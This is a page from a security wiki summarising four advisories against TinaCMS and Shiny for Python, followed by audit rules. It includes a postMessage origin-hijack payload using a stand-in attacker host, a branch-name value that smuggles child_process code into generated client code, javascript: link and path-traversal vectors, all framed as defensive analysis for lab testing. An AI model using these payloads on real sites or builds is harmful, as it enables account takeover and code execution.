

repository: bastet-ai/skillz-wiki · page: alerts/2026-10-09-tinacms-four-leg-cluster-fragment-selected-iframe-origin-branch-name-codegen-injection-and-sibling-scheme-check-gap-ghsa/index.html · generator: mkdocs

# TinaCMS four-leg cluster

**Signal:** GitHub Security Advisories published a four-advisory cluster against TinaCMS and adjacent packages at **2026-10-09T20:56Z** (CVE-2026-108258 through CVE-2026-108261). TinaCMS is a headless CMS whose admin app is a browser-side GraphQL client holding the editor's content token, the critical leg converts one phished link into full content-API read/write as the editor. Each leg is a reusable class with a fingerprint.

!!! warning "Authorized validation only"
    Lab TinaCMS site with synthetic content and your own editor account; attacker page and observer origin you own. Never frame a real admin into an origin you don't control or submit writes to a live content API.

## Advisory table

| GHSA | CVE | Sev | Boundary |
| --- | --- | --- | --- |
| [GHSA-x34j-47hf-4xg7](https://github.com/advisories/GHSA-x34j-47hf-4xg7) | CVE-2026-108261 | critical ≤3.13.0 → 3.14.0 | The admin builds its preview `<iframe src>` from the `/~/*` **hash-router splat with no same-origin check**: `#/~//attacker.example/p` → `/${params['*']}` → protocol-relative `//attacker.example/p`. The *same unvalidated string* also derives `expectedOrigin`, the sole trust anchor for the admin↔preview `postMessage` channel, so the attacker's frame is treated as the trusted preview and can submit **any GraphQL operation**, which the admin executes with the signed-in editor's token and posts back to the attacker. One link, one click by a logged-in editor = unauthenticated attacker reads/writes the site's content API as that editor. |
| [GHSA-pwhx-cvv3-qj5c](https://github.com/advisories/GHSA-pwhx-cvv3-qj5c) | CVE-2026-108259 | high ≤2.7.0 → 3.0.0 | `@tinacms/cli` reads the git branch (`VERCEL_GIT_COMMIT_REF`/`GITHUB_BRANCH`/`HEAD`) and interpolates it **raw** into the generated `client.ts` at `url: '${apiURL}'` (single- and double-quoted sibling sinks). A Git-valid branch name like `x'+require("child_process").exec("id")+'` closes the string literal and executes when the consumer build imports the generated client. Repo-name/branch → build-time code execution: supply-chain leg where the attacker controls only a branch name (fork + PR with a crafted branch, renamed branch, CI that generates the client). |
| [GHSA-c42q-qvc3-j6vg](https://github.com/advisories/GHSA-c42q-qvc3-j6vg) | CVE-2026-108260 | high ≤0.2.0 → 0.2.1 | `<tina-markdown>` assigns rich-text `a` node URLs straight to `el.href` with **no scheme check**, a CMS-authored `javascript:` link renders as a live anchor; visitor click executes in the site origin. Every sibling renderer in the same repo sanitizes these URLs; the DOMPurify call that exists in the file handles raw-HTML nodes and **returns before the anchor branch**, so it never inspects `node.url`. Sibling-renderer parity + sanitizer-coverage-gap-in-the-same-function. |
| [GHSA-47c3-hpmg-7j6p](https://github.com/advisories/GHSA-47c3-hpmg-7j6p) | CVE-2026-108258 | medium 1.4.0-1.6.3 → 1.6.4 | Shiny for Python joins client-supplied `_state_id_` into `<cwd>/shiny_bookmarks/<id>` with no validation; `..`/absolute paths escape the bookmark store. On default apps the restore fires for **any query string even with bookmarking disabled** (`bookmark_store="disable"`), unauthenticated oracle for existence + JSON-validity of two fixed filenames (`input.json`, `values.json`) at attacker-chosen paths; with `bookmark_store="server"` + `ui.input_file()`, copies the file contents back = file read. Feature-disabled-but-handler-live, again. |

## Durable operator rules

1. **Fragment/router-splat values that become frame or channel trust anchors are OAuth-grade security state.** The TinaCMS shape, URL fragment → iframe `src` → *also* the `expectedOrigin` compared against incoming `postMessage`, means the "trusted peer" for the message bus is chosen by the attacker's link. Audit any app that (a) takes a destination from fragment/query/hash routing and (b) uses `postMessage` with an origin it derived from user input: the two uses fail together. Probe in a lab admin: craft `#/~//<your-observer>/`, watch whether the frame loads and whether it receives/has-trust-for the message channel (verify against your own observer page only).
2. **Fingerprint the protocol-relative hop.** `/${userValue}` where the value begins with `/` is the one-keystroke class: `//evil` becomes scheme-less-absolute. Any string concatenation producing a URL from a splat/param deserves a leading-`//` test, hash routers hide it from server logs entirely (fragments aren't sent), which also means WAF/server-side controls never see the payload.
3. **Build-time string interpolation of VCS metadata is code execution.** Branch names, tags, commit messages, and remote URLs that reach codegen templates need `JSON.stringify`-class escaping, not concatenation, grep generators for `'${...}'` patterns fed by `git` env vars. PoC boundary: inert marker expressions in your own repo's generated client; never ship an executable payload through a PR to a third party.
4. **Sanitizer-coverage diff inside a single render function.** The pattern "DOMPurify runs on node type X, returns, and node type Y's URL fields never pass through any check" is the same sibling-parity disease as this morning's Vikunja wave: enumerate every DOM sink in the renderer (`href`, `src`, `poster`, `style`, `formaction`) and test each with a scheme canary; verify the sanitizer's *coverage set*, not its presence.
5. **Disabled-feature handlers are still routes.** Shiny's restore ran with bookmarking *disabled*, check whether "off" configuration gates the handler or only the UI. The two-filename existence oracle is a low-severity but reportable primitive; the same "config says off, code path lives" shape recurs across the CMS/dashboard pages on this wiki.
